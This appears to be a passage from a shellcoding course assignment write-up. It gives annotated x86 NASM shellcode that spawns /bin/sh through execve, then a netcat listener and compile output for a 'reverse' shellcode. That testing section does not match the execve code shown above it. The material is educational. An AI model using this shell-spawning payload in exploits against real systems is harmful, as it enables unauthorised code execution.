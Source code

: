 The nasm source is located <a href="https://github.com/skahwah/slae/blob/master/execve-stack/execve-stack.nasm">here</a> and a brief breakdown of the shellcode is located <a href="https://popped.io/execve-stack/">here<a>.

~~~ nasm
xor eax, eax  ;zero out eax
push eax      ;push 00000000 on to the stack


push 0x68732f6e ;push hex hs/n on to the stack
push 0x69622f2f ;push hex ib// on to the stack

;at this point the stack contains //bin/sh0x00000000
mov ebx, esp  ;this satisfies the requirements for *filename (first argument of execve)

push eax      ;push 00000000 on to the stack

;at this point the stack contains 0x00000000//bin/sh0x00000000
mov edx, esp  ;we cant pop 0x00000000 into EDX as the shellcode cannot have any null characters.
              ;instead we move the current address pointed to by ESP into EDX.
              ;this address contains the last value pushed on to the stack, which is 0x00000000
              ;this satisfies the requirements for envp (third argument of execve)

push ebx      ;ebx contains the memory address of the stack where //bin/sh0x00000000 is.
mov ecx, esp  ;this satisfies the requirements for argv (second argument of execve)

mov al, 11     ;execve syscall number, 0xb works also.
int 0x80       ;initiate
~~~

### Testing Execution

#### Set up the listener
~~~ bash
skawa@ubuntu:~$ nc -lvp 3879
listening on [any] 3879 ...


~~~

I built on top of <a href="https://twitter.com/SecurityTube">Vivek\'s</a> nasm linker and assembler shell script and added the opcode extractor and C compiler used in the SLAE course. You can find `super-compile.sh` <a href="https://github.com/skahwah/slae/blob/master/super-compile.sh">here</a>.

~~~ bash
skawa@ubuntu:~/Desktop/code/assignment/assignment2$ ls
reverse.nasm  super-compile.sh
skawa@ubuntu:~/Desktop/code/assignment/assignment2$ ./super-compile.sh reverse
[+] Assembling with Nasm
[+] Linking
[+] Extracting Opcodes
[+] Creating Shellcode
[+] Compiling Shellcode
[+] Done!
skawa@ubuntu:~/Desktop/code/assignment/assignment2$ ls
reverse  reverse.nasm  reverse.o  shellcode-reverse  shellcode-reverse.c  super-compile.sh
skawa@ubuntu:~/Desktop/code/assignment/assignment2$ ./shellcode-reverse
Shellcode Length: 23


~~~
